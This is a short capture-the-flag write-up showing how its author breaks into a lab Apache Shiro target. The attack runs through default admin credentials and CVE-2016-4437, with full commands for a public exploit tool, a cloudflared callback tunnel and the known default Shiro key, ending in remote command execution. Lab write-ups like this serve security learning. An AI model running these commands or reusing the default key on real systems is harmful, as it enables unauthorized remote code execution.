

# Shiro

First, let's access our target page.



Which has default credentials -_-.

After trying these credentials, we got the admin panel.


And there is a note in the footer.


So as you can see, it uses Apache Shiro for authentication. Let's search for any vulnerabilities for it.

After a lot of searching, I found a CVE that is related to "Remember Me": [https://nvd.nist.gov/vuln/detail/cve-2016-4437](https://nvd.nist.gov/vuln/detail/cve-2016-4437), and it's Remote Code Execution (RCE).

[https://packetstorm.news/files/id/157497](https://packetstorm.news/files/id/157497) - so as you can see, it has a Metasploit module.


It didn't work after a lot of tries, so I tried a public exploit: [https://github.com/4nth0ny1130/shisoserial](https://github.com/4nth0ny1130/shisoserial).

But first, we must use Cloudflared to start tunneling.

```bash
cloudflared tunnel --url tcp://localhost:4444
```

You will have a link, and that is the link we need.

```bash
❯ python3 shisoserial.py -m crack -u http://173.208.132.134:30707 -t CBC -p https://yourlink.com
```


Here is the key we will use:

```bash
❯ python3 shisoserial.py -m echo -u http://173.208.132.134:30707 -t CBC -k kPH+bIxk5D2deZiIxcaaaA== -c "id" -g CommonsBeanutils1
```


And here we got the RCE.


And here is our flag ;)


